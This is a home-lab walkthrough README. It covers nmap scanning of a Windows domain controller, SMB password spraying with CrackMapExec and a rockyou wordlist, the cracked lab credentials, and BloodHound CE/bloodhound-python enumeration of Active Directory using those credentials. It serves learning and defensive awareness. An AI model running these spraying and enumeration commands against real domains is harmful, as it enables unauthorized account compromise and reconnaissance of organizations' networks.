









# BloodHound - Active Directory Enumeration 💀

**From password discovery to Active Directory relationship mapping.**

A hands-on Active Directory enumeration and reconnaissance exercise using **CrackMapExec, BloodHound CE, Neo4j, and bloodhound-python**.

This repository documents the process of identifying valid domain credentials, enumerating Active Directory objects, collecting domain information, and importing the collected data into BloodHound for visual analysis.

---

## Disclaimer

- **Educational purposes only.**
- All activities are performed within my own isolated home lab environment.
- The credentials, accounts, and domain configurations used throughout this repository are intentionally created for testing.
- Never perform password attacks, enumeration, or security testing against systems without explicit authorization.

## Lab Environment

For this exercise, I have the following machines:

| Machine | Operating System | Role |
|---|---|---|
| DC | Windows Server 2022 Evaluation Edition | Domain Controller |
| MC | Windows 11 | Management Console |
| WS | Windows 11 | Domain Workstation |
| A | Kali Linux | Attacker Machine |

### Command Reference

Throughout this repository, I will use the following notation:

| Prefix | Description |
|---|---|
| DC: | Domain Controller |
| MC: | Management Console |
| WS: | Workstation |
| A: | Attacker Machine (Kali Linux) |
| PS | PowerShell (Administrator by default) |
| CMD | Command Prompt (when explicitly mentioned) |

### VM Snapshots

I maintained the following snapshots during the lab setup:

**Domain Controller (DC)**
1. Freshly created and domain configured, without WS joining the domain.
2. Domain configured with WS successfully joined.

**Workstation (WS)**
1. Fresh Windows 11 installation, before joining the domain.
2. Windows 11 after successfully joining the domain.

**Management Console (MC)**
1. Fresh Windows 11 installation.

**Attacker (A)**
- Kali Linux. Immortal Dragon doesn't need no snapshots. 🐲

**Recommendation:** Keep VM snapshots and templates before experimenting with attacks. I forgot to maintain template mode initially, so learn from my mistakes!

---

## Prerequisites & Previous Repositories

Before proceeding, I recommend going through the following repositories:

1. [Active Directory Setup](https://github.com/AdityaBhatt3010/Active-Directory-Setup)
2. [Automating Domain Users in Active Directory](https://github.com/AdityaBhatt3010/Automating-Domain-Users-in-Active-Directory)
3. [Adding Random Users & Groups in AD](https://github.com/AdityaBhatt3010/Adding-Random-Users-Groups-in-AD)
4. [Active Directory Exploitation and Enumeration using CrackMapExec](https://github.com/AdityaBhatt3010/Active-Directory-Exploitation-and-Enumeration-using-CrackMapExec)

For this lab, I have VS Code and Git configured on my Management Console.

**MC: PowerShell (Administrator)**

```powershell
winget install --id Git.Git -e --source winget
```

VS Code can be downloaded from:

https://code.visualstudio.com/download

---

# 1. Baseline Verification

Before moving to Kali, let's verify the existing setup and the generated domain user data.

**MC: PowerShell**

```powershell
.\ExtractedUsernames.ps1
```

Inspect the generated usernames:

```powershell
cat .\extractedUnames.txt
```

Inspect the JSON configuration:

```powershell
cat op.json
```

This gives us the baseline user information that will be used during the subsequent enumeration exercise.



---

# 2. Reconnaissance Using Nmap

Time to switch to our Attacker machine.

Before attempting authentication, we need to identify the services exposed by our Domain Controller.

**A: Kali Linux**

```bash
nmap -Pn -v IP
```

Replace `IP` with the Domain Controller's IP address.

### Observed Results

| Port | Service | Purpose |
|---|---|---|
| 53 | DNS | Domain name resolution |
| 88 | Kerberos | Authentication |
| 135 | MSRPC | Microsoft RPC |
| 139 | NetBIOS | NetBIOS session service |
| 389 | LDAP | Directory services |
| 445 | SMB | File sharing and domain communication |
| 464 | kpasswd5 | Kerberos password changes |
| 593 | HTTP-RPC-EPMAP | RPC over HTTP |
| 636 | LDAPS | LDAP over SSL/TLS |
| 3268 | Global Catalog LDAP | Forest-wide directory searches |
| 3269 | Global Catalog LDAPS | Secure Global Catalog |
| 5985 | WinRM | Windows Remote Management |



The exposed services give us a useful picture of the Domain Controller's attack surface.

In particular, LDAP, Kerberos, and SMB are relevant to the enumeration activities that follow.

---

# 3. Password Discovery Using CrackMapExec

For this example, I used the first 1,000 entries from `rockyou.txt` as a small test wordlist.

**A: Kali Linux**

```bash
head -n 1000 rockyou.txt > passwds.txt
```

Now, let's perform an authorized SMB authentication test against our lab Domain Controller.

```bash
crackmapexec -t 1000 smb IP -u extractedUnames.txt -p passwds.txt --continue-on-success | grep -v '[-]'
```

### Understanding the command

- `-t 1000`: Configures the number of concurrent threads.
- `smb`: Specifies SMB as the authentication protocol.
- `IP`: Target Domain Controller.
- `-u`: Username list.
- `-p`: Password list.
- `--continue-on-success`: Continues testing after successful authentication.
- `grep -v '[-]'`: Filters out output lines containing `-`, making the remaining results easier to inspect.

### Observed Results

```text
SMB 192.168.136.131 445 DC1 [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:Adi.com) (signing:True) (SMBv1:False)

SMB 192.168.136.131 445 DC1 [+] Adi.com\rdixon:letmein

SMB 192.168.136.131 445 DC1 [+] Adi.com\jjain:iloveyou

SMB 192.168.136.131 445 DC1 [+] Adi.com\broberts:1234567890
```

We have successfully identified three valid domain credential pairs in our deliberately weakly configured lab.

And about easy passwords, who uses them?

Well, I have seen corporate employees use combinations of months, years, seasons, and similar predictable patterns more times than I'd like to admit.

This is precisely why password hygiene matters.



---

# 4. Installing Neo4j & BloodHound CE

Now comes the interesting part.

We will install BloodHound Community Edition (CE) alongside Neo4j on Kali Linux.

**Installation Type:** Native Kali Linux installation  
**Docker:** Not required  
**Database:** Neo4j  
**BloodHound Edition:** Community Edition

**Note:** Docker is another installation option. I simply prefer keeping this setup native.

Also, a small lesson from my installation experience: be careful with special characters in passwords. I once used a character that interfered with configuration parsing and spent almost an hour troubleshooting what turned out to be a password issue. 🙃

## 4.1 Update Kali & Install BloodHound

```bash
sudo apt update
```

Install BloodHound:

```bash
sudo apt install -y bloodhound
```

## 4.2 Verify Installed Components

```bash
bloodhound --version
neo4j version
java -version
psql --version
```

Check the available BloodHound package version:

```bash
apt-cache policy bloodhound
```

### Versions observed during installation

| Component | Version |
|---|---|
| BloodHound CE | 9.8.0~rc3 |
| Neo4j | 4.4.26 |
| Java | 21.0.10 |
| PostgreSQL | 18.3 |

**Important:** The `bloodhound` command is deprecated. Use `bloodhound-start` to launch the application.

## 4.3 Initialize BloodHound

Run the setup script:

```bash
sudo bloodhound-setup
```

This initializes the required components:

- PostgreSQL database and user.
- Neo4j graph database.
- BloodHound API configuration.
- Required application configuration.

The setup process also starts Neo4j and provides its initial credentials.

## 4.4 Configure Neo4j

Open Neo4j Browser:

```text
http://localhost:7474
```

Initial credentials:

```text
Username: neo4j
Password: neo4j
```

Neo4j will prompt you to change the default password.

Set a new password and remember it.

### Database Connection

Use the following connection settings:

```text
Connect URL: localhost:7687
Database: Leave blank
Authentication: Username / Password
Username: neo4j
Password: Your new Neo4j password
```



Click Connect.

## 4.5 Verify Neo4j Connectivity

Check the running process:

```bash
pgrep -af 'neo4j|org.neo4j'
```

Check listening ports:

```bash
sudo ss -lntp | grep -E '7474|7687'
```

Expected ports:

```text
7474 - Neo4j Browser
7687 - Neo4j Bolt
```

Test the database using Neo4j Browser:

```cypher
RETURN 1 AS test;
```

Expected result:

```text
1
```

## 4.6 Install Cypher Shell (Optional)

Kali did not provide `cypher-shell` through my configured APT repositories.

Install Alien:

```bash
sudo apt install -y alien
```

Download the Neo4j 4.4.47 RPM:

```bash
cd ~/Downloads

wget https://dist.neo4j.org/cypher-shell/cypher-shell-4.4.47-1.noarch.rpm
```

Convert the RPM into a Debian package:

```bash
sudo alien --to-deb cypher-shell-4.4.47-1.noarch.rpm
```

Install the generated DEB:

```bash
sudo apt install ./cypher-shell*.deb
```

Verify:

```bash
cypher-shell --version
```

Observed output:

```text
Cypher-Shell 4.4.47
```

Connect to Neo4j:

```bash
cypher-shell -a bolt://localhost:7687 -u neo4j
```

Enter your Neo4j password when prompted.

Test:

```cypher
RETURN 1;
```

Exit:

```cypher
:exit
```

## 4.7 Configure BloodHound Neo4j Authentication

This is an important step.

Open the BloodHound API configuration:

```bash
sudo nano /etc/bhapi/bhapi.json
```

Locate the Neo4j configuration:

```json
"neo4j": {
    "addr": "localhost:7687",
    "username": "neo4j",
    "secret": "YOUR_NEO4J_PASSWORD"
}
```

Ensure that the `secret` value matches the password configured in Neo4j.

**Important:** Avoid unescaped URL-reserved characters in passwords used in connection URLs. Characters such as `#` can interfere with URL parsing.

Preserve the remaining configuration entries.

Save the file:

```text
CTRL + O
ENTER
CTRL + X
```

## 4.8 Start BloodHound CE

Launch BloodHound:

```bash
sudo bloodhound-start
```

Wait for the application to initialize.

Open:

```text
http://127.0.0.1:8080/ui/login
```

Complete the initial administrator setup and follow the login instructions provided by the application.

## 4.9 Verify BloodHound Services

Check BloodHound:

```bash
sudo systemctl status bloodhound --no-pager -l
```

Check PostgreSQL:

```bash
sudo systemctl status postgresql --no-pager
```

Check Neo4j:

```bash
pgrep -af 'neo4j|org.neo4j'
```

Check the relevant ports:

```bash
sudo ss -lntp | grep -E '7474|7687|8080|5432'
```

Expected ports:

| Port | Component |
|---|---|
| 7474 | Neo4j Browser |
| 7687 | Neo4j Bolt |
| 8080 | BloodHound CE |
| 5432 | PostgreSQL |

## 4.10 Troubleshooting

### BloodHound takes too long to start

Inspect live logs:

```bash
sudo journalctl -u bloodhound -f
```

Inspect recent logs:

```bash
sudo journalctl -u bloodhound -n 100 --no-pager
```

Check service status:

```bash
sudo systemctl status bloodhound --no-pager -l
```

### Neo4j service not found

```bash
sudo systemctl status neo4j
```

Kali's BloodHound setup can launch Neo4j directly as a Java process instead of using a separate `neo4j.service` systemd unit.

Check the actual process:

```bash
pgrep -af 'neo4j|org.neo4j'
```

### BloodHound Neo4j authentication error

Inspect the configuration:

```bash
sudo nano /etc/bhapi/bhapi.json
```

Verify the Neo4j address, username, and secret.

### BloodHound service logs

```bash
sudo journalctl -u bloodhound -n 50 --no-pager
```

### Installation Summary

| Component | Status |
|---|---|
| Neo4j | Installed and running |
| Java | Installed |
| PostgreSQL | Installed and running |
| BloodHound CE | Installed and running |
| Cypher Shell | Installed |
| Docker | Not required |

---

# 5. Configure DNS Resolution

Before performing domain enumeration from Kali, we need to ensure that our attacker machine can resolve the AD domain and Domain Controller hostname.

Open the resolver configuration:

**A: Kali Linux**

```bash
sudo nano /etc/resolv.conf
```

Change the existing nameserver entry to the Domain Controller's IP address.

For example:

```text
nameserver DC_IP
```

This ensures that DNS queries are directed towards our lab Domain Controller.



Next, configure the local hosts file.

```bash
sudo nano /etc/hosts
```

At the bottom, add:

```text
DC_IP dc1.Adi.com
```

This provides a local hostname-to-IP mapping for the Domain Controller.



---

# 6. Installing bloodhound-python

We already have three valid domain credential pairs from our previous CrackMapExec exercise.

For this demonstration, we will use:

```text
Adi.com\rdixon:letmein
Adi.com\jjain:iloveyou
Adi.com\broberts:1234567890
```

Install the Python collector:

```bash
pip install bloodhound
```

The `bloodhound-python` utility allows us to collect Active Directory information remotely using domain credentials.

## 6.1 Initial Enumeration

Let's begin with our first collection.

**A: Kali Linux**

```bash
bloodhound-python -u rdixon -p letmein -dc dc1.Adi.com --disable-autogc -d Adi.com
```

### Understanding the command

- `-u`: Domain username.
- `-p`: Password.
- `-dc`: Domain Controller hostname.
- `--disable-autogc`: Disables Global Catalog queries.
- `-d`: Target domain.

### Observed Output

```text
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: adi.com
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc1.Adi.com
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 9 users
INFO: Connecting to LDAP server: dc1.Adi.com
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: P0.Adi.com
INFO: Querying computer: DC1.Adi.com
INFO: Done in 00M 01S
```

We can already see that the collector successfully retrieved information about the domain, computers, users, and groups.



## 6.2 Inspecting the Generated JSON Files

Once collection is complete, inspect the generated files:

```bash
ls *.json
```

Observed output:

```text
20261106171804_computers.json
20261106171804_domains.json
20261106171804_groups.json
20261106171804_users.json
VPN_logs.json
```

Let's understand what these files contain.

### Computers

```bash
cat 20261106171804_computers.json
```

Contains information such as:

- Computer names.
- Domain membership.
- Security identifiers (SIDs).
- Local administrator relationships.
- Delegation-related properties.
- Remote management and session information.

### Domains

```bash
cat 20261106171804_domains.json
```

Contains domain-level information, including:

- Domain name.
- Domain SID.
- Distinguished Name.
- Functional level.
- Trust relationships.
- Domain-level security information.

### Groups

```bash
cat 20261106171804_groups.json
```

Contains:

- Group names.
- Group SIDs.
- Distinguished Names.
- Group membership relationships.
- High-value group classifications.
- Access control information.

### Users

```bash
cat 20261106171804_users.json
```

Contains:

- Domain usernames.
- User SIDs.
- Distinguished Names.
- Primary group information.
- Delegation-related properties.
- SPN-related information.

The generated JSON files are structured representations of the collected Active Directory objects and relationships.

They are what we will subsequently feed into BloodHound for graphical analysis.

---

# 7. Full Active Directory Collection

The initial collection worked. However, we can request all available collection methods instead of relying on the default collection set.

Run:

```bash
bloodhound-python -u rdixon -p letmein -dc dc1.Adi.com --disable-autogc -d Adi.com -c all
```

### What does `-c all` do?

The `-c` parameter specifies the collection methods.

Using `all` requests all collection methods supported by the collector, providing a broader collection of Active Directory information.

### Observed Output

```text
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: adi.com
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc1.Adi.com
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc1.Adi.com
INFO: Found 9 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: P0.Adi.com
INFO: Querying computer: DC1.Adi.com
INFO: Done in 00M 01S
```

Notice the additional information:

- 2 Group Policy Objects (GPOs).
- 1 Organizational Unit (OU).
- 19 containers.

This provides us with a broader view of the domain environment.

Check the generated files:

```bash
ls
```

Observed output:

```text
20261106172245_computers.json
20261106172245_domains.json
20261106172245_groups.json
20261106172245_users.json
20261106172245_containers.json
20261106172245_gpos.json
20261106172245_ous.json
```

We now have a much more comprehensive collection of domain information.



---

# 8. Importing Data into BloodHound

And now, the moment we've been waiting for.

Open BloodHound CE:

```text
http://127.0.0.1:8080
```

Log in using your administrator credentials.

Navigate to the data upload section and upload the collector output in the format supported by your BloodHound installation.

Once the data has been successfully ingested, we can begin exploring the collected Active Directory environment through BloodHound.



**Voila!** Our Active Directory data is now ready for graphical exploration. 💀

---

# What's Next?

This was my first proper Active Directory lab exploration involving BloodHound.

We have successfully:

- Identified exposed Domain Controller services using Nmap.
- Discovered valid domain credentials in our intentionally weak lab.
- Installed Neo4j and BloodHound CE natively on Kali Linux.
- Configured DNS resolution.
- Installed and executed bloodhound-python.
- Enumerated domain users, groups, computers, and other directory objects.
- Collected additional information using `-c all`.
- Prepared the collected data for BloodHound analysis.

But we're nowhere near done.

**The next part will focus on BloodHound itself** — understanding the graph, identifying interesting relationships, exploring attack paths, and investigating potential privilege escalation opportunities in our lab.

And yes, there will be more AD experiments coming.

---

## A Few Final Words 🐲

Easy passwords? Who uses them?

Well, I have seen corporate employees use month-year combinations, season-year combinations, and predictable patterns more times than I can count.

This lab is a small demonstration of why those practices matter.

This is not a production-grade environment. It is a testing environment that I will continue breaking, experimenting with, and eventually using as the foundation for future repositories.

Here I build tools, test them, break them, improve them, and occasionally break the improved versions too.

**Stay tuned. We have more AD to break.** 💀

**Author:** Aditya Bhatt  
**GitHub:** [AdityaBhatt3010](https://github.com/AdityaBhatt3010)

---
